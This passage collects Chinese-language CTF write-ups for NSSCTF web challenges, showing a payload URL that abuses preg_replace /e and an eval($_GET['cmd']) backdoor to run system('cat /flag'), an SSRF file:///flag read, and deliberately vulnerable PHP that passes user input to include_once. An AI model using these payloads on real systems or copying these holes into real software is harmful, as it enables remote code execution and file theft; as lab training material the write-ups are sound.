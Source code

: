 ```php-template=
	@eval($_GET['cmd']);
}

```
然后又无从下手，看了一下别人，要从preg_replace /e 下手，模式下的preg_replace可以让第二个参数'替换字符串'当作代码执行，但是这里第二个参数是不可变的
所以构造payload
```
http://node4.anna.nssctf.cn:28282/?text=data://text/plain,I%20have%20a%20dream&file=next.php&?\S*=${getFlag()}&cmd=system(%27cat%20/flag%27);
```

## [LitCTF 2024]浏览器也能套娃？
>做题人：余俊康
>题目地址：https://www.nssctf.cn/problem/5604
>知识点:php伪协议


点开题目是如下：
![](https://doc.amqyy.cn/uploads/5663c8dc-15ed-4b26-bd77-872863c174bc.png)

输入进去都没用显示无效，于是打开源码看看，还是没法做
但是当我把题目url输入进去后却有效了
![](https://doc.amqyy.cn/uploads/f42249fb-1898-40ec-bbe6-d77ad7627a39.png)
看了一下别人的做法，说是通过url分享网页内容，就要想到SSRF漏洞。
SSRF一般用于访问本地的文件，所以在这里可以用伪协议中的，file://
来访问
但是当我去访问的时候确是这样的
![](https://doc.amqyy.cn/uploads/b1d45eb1-e61c-403f-888e-18845a9e19df.png)
最后发现输错位置了，因该直接在搜索框里输入 file///flag
最后得到flag
![](https://doc.amqyy.cn/uploads/6af5f516-f4b2-4ab8-a949-3255769164d8.png)





## 1.13 [SWPUCTF 2021 ]include
>做题人：余俊康
>题地址：https://www.nssctf.cn/problem/427
>知识点：php伪协议

打开题目只看到一个“传入一个文件”一句话，但是也没看到传入的入口
![](https://doc.amqyy.cn/uploads/d600a788-a709-47b8-9e89-63e86e5873f0.png)
于是url上加上file=,然后就有一串php代码
```php-template=
 <?php
ini_set("allow_url_include","on");
header("Content-type: text/html; charset=utf-8");
error_reporting(0);
$file=$_GET['file'];
if(isset($file)){
    show_source(__FILE__);
    echo 'flag 在flag.php中';
}else{
    echo "传入一个file试试";
}
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>";
include_once($file);
?> flag 在flag.php中
```